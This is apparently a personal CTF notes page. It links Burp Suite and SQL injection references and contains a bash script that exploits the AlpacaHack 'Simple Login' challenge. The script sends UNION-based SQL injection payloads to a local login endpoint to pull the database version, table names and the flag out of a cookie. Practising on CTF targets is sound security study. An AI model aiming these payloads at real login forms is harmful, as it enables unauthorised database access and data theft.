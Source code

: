 # Burp Suite
- https://troushoo.blog.fc2.com/blog-entry-249.html

# Windows
- Burp Suite Community Edition Windows (x64) をダウンロード
- https://www.leon-tec.co.jp/blog/10174/

# SQL injection
- https://portswigger.net/web-security/sql-injection/cheat-sheet
- https://portswigger.net/web-security/sql-injection/union-attacks

# shell sciprt
**sql_injection.sh**
```bash
#!/bin/bash
# (Simple Login)[https://alpacahack.com/ctfs/round-2/challenges/simple-login]
URL="http://127.0.0.1:3000/login"
# simple-login には 64 文字以内の制限がある
QUERIES=(
'SELECT @@version,NULL'
'SELECT table_name,NULL FROM information_schema.tables'
'SELECT value,NULL FROM flag'
)
for q in "${QUERIES[@]}"; do
    echo "[+] $q"
    curl -i -X POST \
        --data-urlencode "username=\\" \
        --data-urlencode "password= UNION ${q}-- " \
        $URL 2>/dev/null |
        awk '/^Set-Cookie:/{print $2}' | cut -d'=' -f 2 | sed 's/;//'
    echo
done
```
